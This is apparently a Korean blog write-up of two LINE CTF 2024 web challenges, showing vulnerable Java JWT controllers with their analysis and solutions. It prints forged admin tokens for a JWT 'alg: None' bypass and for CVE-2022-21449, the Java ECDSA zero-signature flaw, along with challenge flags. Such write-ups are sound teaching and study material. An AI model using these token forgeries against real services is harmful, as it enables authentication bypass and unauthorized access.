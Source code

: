 ```yaml
---
title: "LINE CTF 2024 Write up"
date: 2024-03-26 +0900
categories: [WRITE-UP]
tags: ['writeup', 'line ctf', '2024']
image:
    path: "/assets/img/posts/2024-03-26-LINE-CTF-2024-Write-up/image1.png"
    alt: "Line CTF"
    lqip: "/assets/img/posts/2024-03-26-LINE-CTF-2024-Write-up/image1.png"
---
```



## jalyboy-baby [web]
- _Solver : 428_
- _Score : 100_

### 1. Abstract

- JWT None Algorithm Attack

### 2. Analysis

- 문제 페이지에서는 j 라는 파라미터를 통해 JWT 값을 전송하고 있음
- 파라미터로 전송받은 JWT 값을 파싱 및 `claims` 에 저장
- `claims` 에서 `getSubject()` 를 통해 `sub` 값을 비교하여 분기한다.
- `sub` 값이 `admin` 이라면 flag 값을 model에 포함시킨다.

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();

        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }

### 3. Exploit

JWT 값은 `j` 파라미터를 통해 보내줄 수 있다. 따라서 이 JWT 값을 다시 생성해서 보낼 수 있다.

```json
{
	"alg" : "None"
}

{
	"sub" : "admin"
}
```

현재 JWT 알고리즘은 HS256을 사용하고 있지만, JWT를 생성할 수 있으므로 `alg` 를 `None` 으로 변경하여 서명 검증을 우회할 수 있다.  `sub` 가 admin이 되어 flag를 얻을 수 있다.

```plain
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.
```

![Untitled](/assets/img/posts/2024-03-26-LINE-CTF-2024-Write-up/image2.png)

> Flag : `LINECTF{337e737f9f2594a02c5c752373212ef7}`
<br>

## jalyboy-jalygirl [web]
- _Solver : 189_
- _Score : 100_

### 1. Abstract

- CVE-2022-21449

### 2. Analysis

jalyboy-baby 문제와 대부분 같지만, 서명 알고리즘은 `ES256` 을 사용하고 있다. 

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }


### 3. Exploit

해당 문제는 JAVA의 ESDSA 서명 검증 알고리즘에 대한 구현 오류로 인해 취약점이 발생한다. 서명 검증에 필요한 r, s 의 값이 0인지 검증을 하지 않기 때문에 0인 서명 값을 생성할 수 있고, 이를 통해 모든 공개키에 대해서 항상 유효한 서명이 된다.

```java
eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA=
```

![Untitled](/assets/img/posts/2024-03-26-LINE-CTF-2024-Write-up/image3.png)

> Flag: `LINECTF{abaa4d1cb9870fd25776a81bbd278932}`
> 

### Reference

> [https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)

> [https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/](https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/)
